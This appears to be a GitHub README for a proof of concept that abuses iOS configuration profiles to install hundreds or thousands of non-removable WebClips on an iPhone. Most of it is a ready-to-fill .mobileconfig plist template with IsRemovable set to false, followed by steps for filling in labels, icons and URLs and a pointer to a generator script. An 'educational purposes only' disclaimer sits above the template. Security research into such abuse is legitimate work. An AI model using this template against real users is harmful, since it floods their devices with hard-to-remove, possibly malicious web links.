 # iOS WebClip Spam PoC

## Overview

This repository demonstrates a proof-of-concept (PoC) for how iOS WebClips could potentially be exploited to place hundreds/thousands of semi-unremovable, potentially harmful web clips on a user's iPhone via a '.mobileconfig' configuration profile.

## ⚠️ Disclaimer

This PoC is for educational and research purposes only. Do not use this for any malicious activities. Always respect applicable laws and regulations.

## Proof of Concept

This PoC demonstrates how a malicious actor could create a configuration profile that installs multiple WebClips at once, potentially overwhelming the user's device.

### Configuration Profile Structure

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>PayloadContent</key>
    <array>
        <dict>
            <key>FullScreen</key>
            <true/>
            <key>IgnoreManifestScope</key>
            <true/>
            <key>IsRemovable</key>
            <false/>
            <key>Label</key>
            <string>[APP_LABEL]</string>
            <key>Icon</key>
            <data>[BASE64_ENCODED_IMAGE]</data>
            <key>Precomposed</key>
            <true/>
            <key>URL</key>
            <string>[URL]</string>
            <key>PayloadIdentifier</key>
            <string>[ID]</string>
            <key>PayloadType</key>
            <string>com.apple.webClip.managed</string>
            <key>PayloadUUID</key>
            <string>[UUID]</string>
            <key>PayloadVersion</key>
            <integer>1</integer>
        </dict>
    </array>
</dict>
</plist>
```

### Usage

1. Replace the placeholders in square brackets:
   - [APP_LABEL]: Name displayed under the WebClip icon
   - [BASE64_ENCODED_IMAGE]: Base64-encoded icon image data
   - [URL]: Website URL the WebClip opens
   - [ID]: Unique identifier for this WebClip
   - [UUID]: UUID for this WebClip

2. Use the 'autoCreate.py' Python script, and follow the instructions which are at the top.)

## References

- [Apple Configuration Profile Reference](https://developer.apple.com/business/documentation/Configuration-Profile-Reference.pdf)
- [WebClip MDM Payload Settings](https://support.apple.com/guide/mdm/web-clips-mdm54f9b61d/web)

